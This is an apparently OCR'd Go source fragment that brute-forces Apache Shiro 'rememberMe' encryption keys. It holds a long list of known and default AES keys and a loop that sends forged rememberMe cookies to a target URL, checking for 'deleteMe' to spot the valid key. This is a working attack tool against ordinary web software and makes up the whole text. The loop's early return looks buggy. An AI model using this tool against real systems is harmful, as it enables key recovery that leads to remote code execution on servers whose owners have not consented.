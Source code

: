 ```golang
		"5AvVhmFLUS0ATA4Kprsdag==", "s0KTA3mFLUprK4AvVhsdag==", "hBlzKg78ajaZuTE0VLzDDg==",
		"9FvVhtFLUs0KnA3Kprsdyg==", "d2ViUmVtZW1iZXJNZUtleQ==", "yNeUgSzL/CfiWw1GALg6Ag==",
		"NGk/3cQ6F5/UNPRh8LpMIg==", "4BvVhmFLUs0KTA3Kprsdag==", "MzVeSkYyWTI2OFVLZjRzZg==",
		"CrownKey==a12d/dakdad", "empodDEyMwAAAAAAAAAAAA==", "A7UzJgh1+EWj5oBFi+mSgw==",
		"c2hpcm9fYmF0aXMzMgAAAA==", "i45FVt72K2kLgvFrJtoZRw==", "66v1O8keKNV3TTcGPK1wzg==",
		"U3BAbW5nQmxhZGUAAAAAAA==", "ZnJlc2h6Y24xMjM0NTY3OA==", "Jt3C93kMR9D5e8QzwfsiMw==",
		"MTIzNDU2NzgxMjM0NTY3OA==", "vXP33AonIp9bFwGl7aT7rA==", "V2hhdCBUaGUgSGVsbAAAAA==",
		"Q01TX0JGTFlLRVlfMjAxOQ==", "Is9zJ3pzNh2cgTHB4ua3+Q==", "SDKOLKn2J1j/2BHjeZwAoQ==",
		"NsZXjXVklWPZwOfkvk6kUA==", "GAevYnznvgNCURavBhCr1w==", "zSyK5Kp6PZAAjlT+eeNMlg==",
		"bXdrXl9eNjY2KjA3Z2otPQ==", "RVZBTk5JR0hUTFlfV0FPVQ==", "WkhBTkdYSUFPSEVJX0NBVA==",
		"GsHaWo4m1eNbE0kNSMULhg==", "l8cc6d2xpkT1yFtLIcLHCg==", "KU471rVNQ6k7PQL4SqxgJg==",
		"kPH+bIxk5D2deZiIxcabaA==", "kPH+bIxk5D2deZiIxcacaA==", "4AvVhdsgUs0F563SDFAdag==",
		"FL9HL9Yu5bVUJ0PDU1ySvg==", "fdCEiK9YvLC668sS43CJ6A==", "FJoQCiz0z5XWz2N2LyxNww==",
		"HeUZ/LvgkO7nsa18ZyVxWQ==", "HoTP07fJPKIRLOWoVXmv+Q==", "iycgIIyCatQofd0XXxbzEg==",
		"m0/5ZZ9L4jjQXn7MREr/bw==", "NoIw91X9GSiCrLCF03ZGZw==", "oPH+bIxk5E2enZiIxcqaaA==",
		"QAk0rp8sG0uJC4Ke2baYNA==", "Rb5RN+LofDWJlzWAwsXzxg==", "s2SE9y32PvLeYo+VGFpcKA==",
		"SrpFBcVD89eTQ2icOD0TMg==", "Us0KvVhTeasAm43KFLAeng==", "YWJjZGRjYmFhYmNkZGNiYQ==",
		"zIiHplamyXlVB11UXWol8g==", "ZjQyMTJiNTJhZGZmYjFjMQ==", "kPv59vyqzj00x11LXJZTjJ2UHW48jzHN",
		"2adsfasdqerqerqewradsf==", "2AvVCXsxUs0FSA7SYFjdQg==", "2AvVhdsgERdsSA3SDFAdag==",
		"2AvVhdsgUs0FSA3SaFAdfg==", "2AvVhdsgUs0FSA3SDFAder==", "2AvVhdsgUsOFSA3SDFAdag==",
		"2AvVhmFLUs0KTA3Kprsdag==", "2AvVidsaUSofSA3SDFAdog==", "3Av2hmFLAs0BTA3Kprsd6E==",
		"3AvVhdAgUs1FSA4SDFAdBg==", "3AvVhMFLIs0KTA3Kprsdag==", "3AvVhmFLUs0KTA3KaTHGFg==",
		"3AvVhmFLUs0KTA3Kprsdag==", "3qDVdLawoIr1xFd6ietnsg==", "3rvVhmFLUs0KAT3Kprsdag==",
		"4AvVhm2LUs0KTA3Kprsdag==", "4AvVhmFLUs0KTA3KAAAAAA==", "4AvVhmFLUs0KTA3Kprseaf==",
		"4AvVhmFLUs0TTA3Kprsdag==", "4AvVhmFLUs5KTA1Kprsdag==", "4AvVhmFLUsOKTA3Kprsdag==",
		"4rvVhmFLUs0KAT3Kprsdag==", "4WCZSJyqdUQsije93aQIRg==", "5AvVhCsgUs0FSA3SDFAdag==",
		"5oiR5piv5p2h5ZK46bG8IQ==", "8AvVhdsgUs0FSA3SDFAdag==", "9Ami6v2G5Y+r5aPnE4OlBB==",
		"9AVvhnFLuS3KTV8KprsdAg==", "AF05JAuyuEB1ouJQ9Y9Phg==", "aG91c2Vob3VzZWhvdXNlMg==",
		"A+kWR7o9O0/G/W6aOGesRA==", "AztiX2RUqhc7dhOzl1Mj8Q==", "b2EAAAAAAAAAAAAAAAAAAA==",
		"B9rPF8FHhxKJZ9k63ik7kQ==", "c2hvdWtlLXBsdXMuMjAxNg==", "Cj6LnKZNLEowAZrdqyH/Ew==",
		"duhfin37x6chw29jsne45m==", "fCq+/xW488hMTCE+cmJ3FF==", "FjbNm1avvGmWE9CY2HqV75==",
		"FP7qKJzdJOGkzoQzo2wTmA==", "GhrF5zLfq1Dtadd1jlohhA==", "GHxH6G3LFh8Zb3NwoRgfFA==",
		"HOlg7NHb9potm0n5s4ic0Q==", "lt181dcQVz/Bo9Wb8ws/Cg==", "M2djA70UBBUPDibGZBRvrA==",
		"mIccZhQt6EBHrZIyw1FAXQ==", "pbnA+Qzen1vjV3rNqQBLHg==", "pyyX1c5x2f0LZZ7VKZXjKO==",
		"QDFCnfkLUs0KTA3Kprsdag==", "QF5HMyZAWDZYRyFnSGhTdQ==", "qQFtSnnj/sx7vu51ixAyEQ==",
		"QUxQSEFNWVNPRlRCVUlMRA==", "QVN1bm5uJ3MgU3Vuc2l0ZQ==", "R29yZG9uV2ViAAAAAAAAAA==",
		"sBv2t3okbdm3U0r2EVcSzB==", "sgIQrqUVxa1OZRRIK3hLZw==", "TGMPe7lGO/Gbr38QiJu1/w==",
		"UGlzMjAxNiVLeUVlXiEjLw==", "w793pPq5ZVBKkj8OhV4KaQ==", "wrjUh2ttBPQLnT4JVhriug==",
		"wyLZMDifwq3sW1vhhHpgKA==", "YnlhdnMAAAAAAAAAAAAAAA==", "YVd4dmRtVjViM1UlM0QIdn==",
		"YWdlbnRAZG1AMjAxOHN3Zg==", "YystomRZLMUjiK0Q1+LFdw==", "Z3VucwAAAAAAAAAAAAABBB==",
		"Z3VucwACAOVAKALACAADSA=="}
	for _, key := range key_dict {
		log.Println("\033[34mTry key: "+ key + "\033[0m")
		rememberMe := generateRememberMe(key)
		if rememberMe == "" {continue}
		client := &http.Client{Timeout: time.Second * 10}
		req, _ := http.NewRequest("GET", url, nil)
		req.Header.Add("Cookie", "rememberMe="+rememberMe)
		req.Header.Add("User-Agent", "Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0")
		resp, err := client.Do(req)
		time.Sleep(time.Second * 2)
		if err != nil {
			log.Panicln("Error with http request,please check your url")
		}
		setCookies := resp.Cookies()
		for _, cookie := range setCookies {
			log.Println(cookie.String())
			if strings.Contains(cookie.String(), "rememberMe=deleteMe") {
				return false, ""
			}
		}
		return true, key
```